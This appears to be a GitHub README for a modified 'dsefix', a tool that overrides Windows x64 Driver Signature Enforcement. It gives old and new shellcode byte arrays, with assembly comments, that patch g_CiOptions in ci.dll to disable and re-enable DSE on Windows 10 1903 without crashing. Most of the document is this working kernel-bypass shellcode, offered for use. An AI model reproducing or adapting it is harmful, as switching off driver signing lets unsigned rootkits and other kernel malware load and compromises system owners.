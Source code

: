 # dsefix
Windows x64 Driver Signature Enforcement Overrider


In windows 10 1903, g_CiOptions value is not 0x6 but 0x2006.
I changed shellcode using bit operation so no more bsod when DSE re-enabled.

before
/*
**  Disable DSE (Vista and above)
**  xor rax, rax
**  ret
*/
const unsigned char scDisable[] = {
    0x48, 0x31, 0xc0, 0xc3
};

/*
**  Enable DSE (W8 and above)
**  xor rax, rax
**  mov al, 6
**  ret
*/
const unsigned char scEnable8Plus[] = {
    0x48, 0x31, 0xc0, 0xb0, 0x06, 0xc3
};


after
/*
**  Disable DSE (W7 also has ci.dll)
**  mov eax,[g_CiAddress]
**  and al,~6
**  ret
*/
unsigned char scDisable[] = {
	0xA1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x24, 0xF9, 0xC3
};

/*
**  Enable DSE
**  mov eax,[g_CiAddress]
**  or al,6
**  ret
*/
unsigned char scEnable[] = {
	0xA1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x0C, 0x06, 0xC3
};
